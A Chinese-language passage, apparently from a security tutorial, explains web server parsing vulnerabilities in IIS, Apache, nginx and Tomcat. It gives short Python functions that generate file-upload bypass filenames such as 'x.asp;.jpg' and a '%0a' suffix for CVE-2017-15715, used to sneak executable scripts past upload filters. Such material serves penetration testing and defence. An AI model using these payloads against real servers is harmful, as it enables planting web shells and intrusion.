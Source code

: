 这块是比较复杂的一块。首先我们先来梳理下

### [](#4-1-IIS "4.1 IIS")4.1 IIS

IIs一共有三个解析漏洞：

1.  IIS6.0文件解析 xx.asp;.jpg2.IIS6.0目录解析 xx.asp/1.jpg3.IIS 7.0畸形解析 xxx.jpg/x.asp

由于2和3和上传的文件名无关，故我们只根据1来生成fuzz字典

```
def iis_suffix_creater(suffix):
    res = []
    for l in suffix:
        str ='%s;.%s' % (l,allow_suffix)
        res.append(str)
    return res
```

### [](#4-2-apache "4.2 apache")4.2 apache

apache相关的解析漏洞有两个：

1.  \%0a\(CVE-2017-15715\)
2.  未知后缀 test.php.xxx

根据以上构造`apache_suffix_builder`函数生成规则：

```
def apache_suffix_creater(suffix):
    res = []
    for l in suffix:
        str = '%s.xxx' % l
        res.append(str)
        str = '%s%s' % (l,urllib.unquote('%0a')) #CVE-2017-15715
        res.append(str)
    return res
```

### [](#4-3-nginx "4.3 nginx")4.3 nginx

nginx解析漏洞有三个：

1.  访问连接加/xxx.php test.jpg/xxx.php
2.  畸形解析漏洞 test.jpg\%00xxx.php
3.  CVE-2013-4547 test.jpg\(非编码空格\)\\0x.php

nginx的解析漏洞，由于和上传的文件名无关，故生成字典无需考虑。

### [](#4-4-tomcat "4.4 tomcat")4.4 tomcat

tomcat用于上传绕过的有三种,不过限制在windows操作系统下。

```
xxx.jsp/
xxx.jsp
xxx.jsp::$DATA
```
